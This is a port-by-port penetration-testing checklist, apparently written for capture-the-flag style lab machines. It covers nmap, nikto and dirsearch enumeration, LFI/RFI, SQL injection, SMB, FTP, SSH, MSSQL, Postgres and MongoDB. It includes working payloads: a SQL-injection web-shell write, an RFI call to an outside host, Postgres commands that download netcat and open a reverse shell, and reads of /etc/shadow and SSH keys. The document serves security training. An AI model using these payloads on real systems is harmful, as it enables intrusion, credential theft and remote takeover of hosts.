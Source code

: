 # Box Solving Methodology 

## Initial Enumeration
- [ ] Port Scanning
  - Run a vuln scan on all ports using: `nmap -p- -Pn -sCV <host>`
  - Check for the services enumerated by nmap on each port and take notes seperately for each service: `Port 80 - Tomcat 8.x`
  - If version is not enumerated by nmap google the service name and check if it has any publicly available exploits. Like in below example nmap enumerated only `gopher` but not the version, so it's wise to google "Gopher Exploits" and check if there are any prioritise the code execution ones. If any, add it in the notes of respective port 

    `70/tcp  open gopher`
    
   - Telnet the service to find the exact version and try finding the exploit of that version on Google, Searchsploit etc.
   - Once you are done scanning TCP ports, run UDP scan from nmap for top 100 ports initially as it takes alot of time.

## Port Wise Enumeration
  - **Port 80,443 or anyother webserver port**
     
     - [ ] Run nikto and look for any vulnerabilities flagged like shellshock or CVE: 
     
     `nikto -h <target>:<port>`
     
     - [ ] Run dir search and look for any exposed files. Look into the files and check the content. Your common loot can be Usernames, Passwords(rare), Version of hosted services(most likely), or any other configuration files. If there is Directory listing is open for one of the directories and the service is opensource try looking out the content on github, to see what can be sensitive files, to avoid going through each file manually: 
     
     `python3 /path/to/dirsearch/dirsearch.py -u http://target.com -e all -t 400` 
     
     #### Warning: Don't fall for running exhaustive dictionaries at once. Initially just start with the default one. 
       
       - [ ] View page source **on each page** and look for comments, vulnerable plugins and versions of various web technologies like CMS, 3rd party plugins etc.
       - [ ] Manually crawl all the application and take notes of any usernames, IDs etc.
       - [ ] If login portal try below:
          -  SQL injection to bypass auth.
          -  Weak credentials (admin/admin, default creds, generate wordlist with cewl)
       - [ ] If you have found LFI via some exploit, try below:
          - Reading common files like `/etc/passwd` ,`/etc/shadow`, `~/.ssh/authorized_keys` , `/var/lib/samba/private/passdb.tdb`, `/etc/samba/smb.conf` or other files like config, logs etc. Also search for services on that particular box and see if they store user/pass on some common location and try reading them. 
          - Also, extract usernames from `/etc/passwd` and bruteforce ssh/ftp/smb or anyother applicable service using usernames as password and weak passwords like password, admin, etc. Bruteforcing with `rockyou.txt` not recommended unless you feel it is the only way. 
          - Use PHP Wrappers for command execution.
          - Try locating functionality to upload a shell, and access it through LFI.
          - Try escalating to RFI, If yes:
           first generate a simple HTTP request to your owned server to enusre the existence of vulnerability. Once done, we can run arbitrary commands using various payloads:
           
                  - Always use various type of shells, for example in php use different functions like system, shell_exec, popen, passthru to gain shell. (useful resource: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php)
                  - Improvise with the server environment and use shells of various languages as well.
                  - Sample command: `http://<target>/sample.php?file=http://10.11.0.4/evil.txt&cmd=ipconfig`
                  - Use curl or web proxies to exploit these kind of vulnerabilities, as sometime application don't throw errors on web browser but errors do come in response of web request.
  
       - [ ] If you got an SQL injection and know the exact path of web root folder, you may get a shell like: ` ' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/cmd.php'  -- -'
  URL Encoded: '+UNION+SELECT+("<%3Fphp+echo+passthru(%24_GET['cmd'])%3B")+INTO+OUTFILE+'C%3A%2Fxampp%2Fhtdocs%2Fcmd.php'++--+-'`
     - [ ] Always read an exploit before usage, and use enumerated ports for reverse connections.
     - [ ] Always first confirm exploit with some sort of sanity check like a simple http request and then move towards gaining reverse/bind shell. Try various methods and languages to get shell on the victim machine.
    - [ ] For Node Js application check for eval function by inserting 1+1.
    
- **Port 21 - FTP Enumeration:**
  - [ ]  Anonymous Login (anonymous/anonymous)
  - [ ]  Weak Credentials. Try gathered username, weak passwords etc.
  - [ ]  System File Read/Write
  - [ ]  PUT method allowed? If yes, then find LFI in the web app. Upload the shell via ftp and trigger it from Web.
  - [ ]  CVE


- **Port 22 - SSH Enumeration:**
  - [ ] Weak Credentials. Try gathered username, weak passwords etc.
  - [ ] Credentials Reuse found in earlier part of assessment
  - [ ] OpenSSH 4.x has a CVE where public RSA/DSA keys can be bruteforced if private keys are known, more details on: https://github.com/g0tmi1k/debian-ssh.
  - [ ] CVE
  - [ ] Sensitive Files:
      -  /.ssh/authorized_keys
      - /.ssh/id_rsa
      - /.ssh/id_rsa.pub


- **Port 139,445 - SMB Enumeration:**
  - [ ] SMB share to read sensitive files.
  - [ ] CVE against samba version.
  - [ ] Symlink attack to mount root share on smb share.
  - [ ] Use wireshark to sniff exact Samba version.
  - [ ] Anonymous login. `smbclient -L //192.168.54.122/ -N`
  - [ ] `smbclient \\\\192.168.201.125\\Commander -p 12445` for login into smbshare
  - [ ] Weak Credentials/Credentials Reuse.


- **Port 1443 - MSSQL**
  - [ ] Credential reuse to login into mysql and read database users or create a login as well. Also, shell commands can be run as a result.
  - [ ] `select do_system('id');` to run system commands from mysql shell.
  - [ ] Incase of sql injection: `' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/cmd.php'  -- -'`
  - [ ] If MYSQL is running as root, you can abuse UDF exploit for privelege escalation. (Reference: `https://www.trenchesofit.com/2021/02/15/offensive-security-proving-grounds-banzai-write-up-no-metasploit/)`. While exploiting UDF you may find size smaller than 0 error, i fixed it by changing the binary name.

- **Port 3389 - RDP**
  - [ ]  Weak Creds/ Credential Reuse.

- **Port 69 - TFTP**
  -  requires no pre authentication.
  -  old protocol to read protocols. need to convert path to notation 8 in order to work or use `atftp` to get it working.   

- **Port 5432 - POSTGRES**
  - [ ] Default creds are postgres:postgres
  - [ ] We can create table to execute cmd, like below:
    - `CREATE TABLE cmd_exec(cmd_output text);`
    - `COPY cmd_exec FROM PROGRAM 'wget http://192.168.234.30/nc';`
    - `DELETE FROM cmd_exec;`
    - `COPY cmd_exec FROM PROGRAM 'nc -n 192.168.234.30 5437 -e /usr/bin/bash';`
  - [ ] Else if we can't create table we can read local files and list dirs via:
    - `select * from pg_ls_dir('/tmp');`
    - `select * from pg_read_file('/etc/passwd' , 0 , 1000000);`
  -  Reference: `https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection`


- **Port 27017 - MongoDB**
  - [ ] mongo mongodb://<ip>:<port> - Check for password less login
  - [ ] Commands:
    - `show db`
    - `show table`
    - `db.table.find().pretty()`
    - `db.users.update({_id:ObjectId("5f73c575eae85a15b8df908d"}), {$set: {"password":"1df38cbe202365fc6f2265391ef6aad4e52c7c09ce837bd191e4081b8749e341"}})`
  
